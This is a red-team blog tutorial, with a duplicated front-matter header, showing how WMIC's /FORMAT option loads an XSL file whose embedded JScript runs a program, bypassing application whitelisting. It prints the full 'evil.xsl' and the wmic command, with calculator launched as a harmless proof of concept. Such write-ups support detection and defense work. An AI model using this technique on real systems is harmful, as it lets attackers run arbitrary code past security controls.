 ```yaml
---
layout: post
title: "application whitelisting bypass with wmic and xsl"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /application-whitelisting-bypass-with-wmic-and-xsl/
---
```


---
layout: post
title: "application whitelisting bypass with wmic and xsl"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /application-whitelisting-bypass-with-wmic-and-xsl/
---

# Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% content-ref url="t1117-regsvr32-aka-squiblydoo.md" %}
[t1117-regsvr32-aka-squiblydoo.md](t1117-regsvr32-aka-squiblydoo.md)
{% endcontent-ref %}

## Execution

Define the XSL file containing the jscript payload:

{% code title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-10 22-05-24.png>)

## Observation

Calculator is spawned by svchost.exe:

![](<../../.gitbook/assets/Screenshot from 2019-04-10 21-57-52.png>)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}

@spotheplanet
